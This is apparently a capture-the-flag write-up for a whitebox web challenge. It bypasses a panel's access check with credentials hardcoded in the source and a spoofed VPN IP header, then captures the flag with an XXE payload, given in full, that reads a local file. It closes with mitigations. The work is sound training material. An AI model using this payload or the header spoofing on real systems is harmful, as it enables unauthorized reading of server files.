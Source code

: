 ## WhiteBox Penetration Test – Internal Web Application

This challenge demonstrates the XML external entity vulnerability that allows an attacker to interfere with an application's processing of XML data.

Challenge Credit: Devnull X ZedBounty

### Scenario

Vivacell is days away from launching their flagship bio-tech platform: Everything looks perferct on paper, but engineers keep encountering anomalies that vanish before they can be logged. Management call it a glitch. The lead developer calls it "impossible." Youve been quietly invited to validate the system before it goes live. No headlines. No panic. Just you,the code, and whatever its hiding.

### Tools Used
- Burp Suite
- Curl
- Mozilla Firefox
- XML Payloads (Payloadallthings)
- DomDocument analysis

**Environment**

![Screenshot_2025-05-05_13_36_35](https://github.com/user-attachments/assets/f062c120-325b-47f0-ab35-82652efe44c7)

 
 **Configuration Files (zip file)**

 Since its a whitebox test,configuration files where provided in a zip file.
 
  
![c](https://github.com/user-attachments/assets/d87c1c3b-c666-4a45-86d9-9b3cccfd0ad1)



  *Panel.php looks like an interesting file*


### Key Findings

**1. Access Control bypass**

Upon trying to access panel.php on the live web server our access was denied. 

Something already smells vulnerable.....lol

![Screenshot_2025-05-05_15_56_47](https://github.com/user-attachments/assets/3be39ff4-0084-47eb-b2a5-064c451f87ef)

  
**Lets open up the panel.php file**

  ![cred](https://github.com/user-attachments/assets/0e8ee05e-73ec-4911-9893-8ba698b11f81)

  
- Hardcoded credentials discovered via *panel.php* file.....bullseye!
  
- We have admin username and password
  
- A whole ip address and what looks like a vpn server name....hmmm

**Lets take out the big guns now......Burpsuite!**

  --> Intercept request with proxy
  
  --> Insert credentials and spoofed IP in HTTP Header.
  
  --> forward request

  
  ![Screenshot_2025-05-05_14_46_34](https://github.com/user-attachments/assets/878e17fb-3584-49c0-b823-fd9ab6d8b948)
  

  - Panel.php is now accessible
    
    ![Screenshot_2025-05-05_14_12_23](https://github.com/user-attachments/assets/992309f8-18b6-4d8f-baff-757cc84638d8)
    

    *......Sweeeeet!*

**2. Vulnerability Discovery (XXE)**

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. - Portswigger

Whats basically happening is the server is able to recieve external data (In the form of XML) and processes this data without proper handling hence the parser expands the input and reveals files on the server.

Classification: XML External Entity (XXE) Injection

Impact: High/severe 

 --> Send request to Burp repeater

 --> Change method from GET to POST

 --> Content type to application/xml

 --> Insert test payload in message body([View Payload]https://github.com/Mumbi-Sec/PayloadsAllThings/blob/b9e847decb60d436f632a33f48f68fabaa324900/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)
 



![Screenshot_2025-05-05_14_24_41](https://github.com/user-attachments/assets/2139a878-a07a-4ecf-9284-3390de2de149)


 *Look at this server.....so..**responsive** lol*

 **3. Exploit**
 
 The panel.php endpoint accepts XML input via POST with the header Content-Type: application/xml. 
 
 --> Open Burp Repeater

 --> Change the request method GET to POST

    POST /panel.php?username=v1v4c3ll4dm1n&password=v1va_la_v1da@123 HTTP/1.1
 
    Host: challenge.zedbounty.com

    X-VIVACELL-VPN: 41.18.611.104

    Content-Type: application/xml

    Connection: close

--> Paste the payload in the message body

```xml &lt;?
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <health>&xxe;</health>
    <temperature>420</temperature>
    <pressure>1337</pressure>
    <control_rods>Lowered</control_rods>
    <radiation_level>5.4</radiation_level>
    <coolant_level>87</coolant_level>
    <power_input>900</power_input>
    <emergency_shutdown>false</emergency_shutdown>
</data>
```
---> How it was sent in Burp

![Screenshot_2025-05-06_14_21_15](https://github.com/user-attachments/assets/e4936b49-0fe0-4a9a-b891-45a23315f087)


--> Check The response tab

*Viola.......Flag Captured: **ZB{xx3_ch3mic4l_r3act1on}***


### 4. Mitigation

- Validate or sanitize incoming XML payloads.

- Disable entity Loading.

- Restrict LIBXML_NOENT usage.

### 5. Lessons Learned

- Bypassing directory access controls using HTTP Header requests.
  
- DOMDocument::loadXML() parser when used with LIBXML_NOENT can expose sensitive files on the web server

- Never trust user supplied headers to validate ip addresses!

### Thank you.....

## Credits and sources

https://zedbounty.com/

https://portswigger.net/web-security/xxe
